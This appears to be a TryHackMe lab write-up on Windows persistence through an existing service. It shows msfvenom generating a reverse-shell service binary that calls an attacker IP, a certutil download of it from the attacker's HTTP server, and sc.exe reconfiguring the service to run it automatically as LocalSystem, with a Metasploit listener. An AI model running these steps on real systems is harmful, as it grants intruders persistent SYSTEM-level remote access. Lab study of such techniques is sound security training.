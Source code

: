 **The `blue team` may `monitor` new service creation across the network. Usually, any `disabled service will be a good candidate`, as it could be altered without the user noticing it.** 

#### Find a stopped service called `THMService3`
```cmd
sc qc THMService3
```

**Output**
```cmd
C:\> sc.exe qc THMService3 
[SC] QueryServiceConfig SUCCESS 

SERVICE_NAME: THMService3 
	TYPE : 10 WIN32_OWN_PROCESS 
	START_TYPE : 2 AUTO_START 
	ERROR_CONTROL : 1 NORMAL 
	BINARY_PATH_NAME : C:\MyService\THMService.exe 
	LOAD_ORDER_GROUP : 
	TAG : 0 
	DISPLAY_NAME : THMService3 
	DEPENDENCIES : 
	SERVICE_START_NAME : NT AUTHORITY\Local Service
```
Three things we care about when using a service for persistence:
- The executable (**`BINARY_PATH_NAME`**) should point to our payload.
- The service **`START_TYPE`** should be automatic so that the payload runs without user interaction.
- The **`SERVICE_START_NAME`**, which is the account under which the service will run, should preferably be set to **`LocalSystem`** to gain SYSTEM privileges.

#### Create a new reverse shell 
```bash
msfvenom -p windows\x64\shell_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe-service -o rev-srv2.exe
```

#### Transfer the Shell
**Attacker**
```bash
python3 -m http.server
```

**Victim**
```cmd
cd c:\windows
certutil -urlcache -split -f http://<attacker-ip>:8000/rev-srv2.exe
```

#### Reconfigure `THMService3` parameters
```cmd
sc.exe config THMService3 binPath= "C:\Windows\rev-srv2.exe" start= auto obj= "LocalSystem"
```

**Output**
```
C:\> sc.exe qc THMService3 
[SC] QueryServiceConfig SUCCESS 

SERVICE_NAME: THMService3 
	TYPE : 10 WIN32_OWN_PROCESS 
	START_TYPE : 2 AUTO_START 
	ERROR_CONTROL : 1 NORMAL 
	BINARY_PATH_NAME : C:\Windows\rev-srv2.exe
	LOAD_ORDER_GROUP : 
	TAG : 0 
	DISPLAY_NAME : THMService3 
	DEPENDENCIES : 
	SERVICE_START_NAME : LocalSystem
```

#### Start a Metasploit Listener
```
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost=<attacker-ip>
run
```

#### Manually start the service to receive a reverse shell
```cmd
sc start THMService3
```
